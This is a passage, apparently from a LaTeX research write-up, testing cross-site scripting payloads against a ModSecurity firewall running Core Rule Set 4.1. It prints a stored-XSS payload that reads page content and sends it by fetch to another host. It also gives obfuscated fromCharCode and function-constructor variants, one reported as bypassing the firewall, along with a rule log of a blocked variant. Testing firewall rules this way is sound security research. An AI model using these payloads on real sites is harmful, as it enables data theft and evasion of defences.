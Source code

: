 \begin{lstlisting}[style=basicStyle, caption=stored xss bypass payload]
<a href=j&#97vascript:var secret = document.getElementsByName('name')[0]&#46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret=something',data)>ClickMeFor$</a>
\end{lstlisting}

\subsubsection{Function Constructor + String Concatenation + fromCharCode()}
\label{sec:charcodemultiiter}
Following up on the idea to split the character sequence \verb|String.fromCharCode| into multiple segments, which was stated during the single iteration evaluation under Section~\ref{sec:charcodesingleiter}, the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
String.fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)
\end{lstlisting}

was split into two parts using the function constructor and string concatenation:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)')();
\end{lstlisting}

This payload successfully bypasses the ModSecurity firewall configured to use the CRS4.1. In order to make this payload execute by itself, another use of the function constructor and string concatenation was applied:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('[].map.constructor(' + 'String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)' + ')();')();
\end{lstlisting}

On evaluating this payload against the tested firewall, the newly applied obscurity triggered a different filtering rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss payload blocked, label={lst:storedxssblocked}]
<payload>
[].map.constructor('[].map.constructor(' + 'String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)' + ')();')();
</payload>

<message>"PHP Injection Attack: Variable Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "488"] [id "933210"]<fileDetails>
<MatchedData>"('[].map.constructor(''String.''fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'')();')();"</MatchedData>
\end{lstlisting}

